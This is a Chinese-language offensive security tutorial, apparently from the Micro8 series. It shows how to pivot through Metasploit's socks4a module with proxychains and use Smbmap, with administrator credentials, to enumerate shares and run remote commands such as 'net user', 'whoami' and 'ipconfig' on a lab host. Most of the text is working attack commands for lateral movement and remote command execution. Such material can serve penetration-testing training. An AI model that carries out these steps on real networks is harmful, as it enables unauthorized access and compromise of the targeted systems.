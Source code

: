 ```yaml
---
title: 55、与Smbmap结合攻击
date: 2019-09-21 19:05:38
comments: true
categories: 
 - Micro8系列
---
```



msf 在配合其它框架攻击，可补充 msf 本身的不足以及强化攻击方式，优化攻击线路。本季将会把 msf 与 Smbmap 结合攻击。弥补 msf 文件搜索以及文件内容搜索的不足。

项目地址：https://github.com/ShawnDEvans/smbmap

* 支持传递哈希  
* 文件上传/下载/删除  
* 可枚举（可写共享，配合Metasploit）  
* 远程命令执行  
* 支持文件内容搜索  
* 支持文件名匹配（可以自动下载）  
* msf配合Smbmap攻击需要使用到sock4a模块

```code
msf auxiliary(server/socks4a) > show options
```
![](../do/media/f7b132114e46760984cd298213740f4d.jpg)

该模块socks4a加入job
```code
msf auxiliary(server/socks4a) > jobs
```
![](../do/media/c38221c680e3e078414ebb4cfe8ecb66.jpg)

配置proxychains，做结合攻击铺垫。
```code
root@John:/tmp# cat /etc/proxychains.conf
```
![](../do/media/9fb4144cb5b4c7825b4ad698f740f3f5.jpg)  

![](../do/media/33f8922e2c8e134f96f3ca546e96c420.jpg)

支持远程命令

```code
root@John:/tmp\# proxychains smbmap ‐u administrator ‐p 123456 ‐d wordk group ‐H 192.168.1.115 ‐x 'net user'
```
![](../do/media/0d745135d03f66c1ec9bc97c844730f5.jpg)  

```code
root@John:/tmp# proxychains smbmap ‐u administrator ‐p 123456 ‐d wordk group ‐H 192.168.1.115 ‐x 'whoami'
```
![](../do/media/c7d86f93c68a049ada011d3067384b07.jpg)

枚举目标机共享
```code
root@John:/tmp# proxychains smbmap ‐u administrator ‐p 123456 ‐d wordk group ‐H 192.168.1.115 ‐d ABC
```
![](../do/media/e28af8ca88f58bb38cf7e10087ab35d6.jpg)

```code
root\@John:/tmp\# proxychains smbmap ‐u administrator ‐p 123456 ‐d wordk group ‐H 192.168.1.115 ‐x 'ipconfig'
```
![](../do/media/123a8b0a7824f57dd5a78f5861b8baea.jpg)

Smbmap支持IP段的共享枚举，当然Smbmap还有更多强大的功能等待探索。

> Micropoor
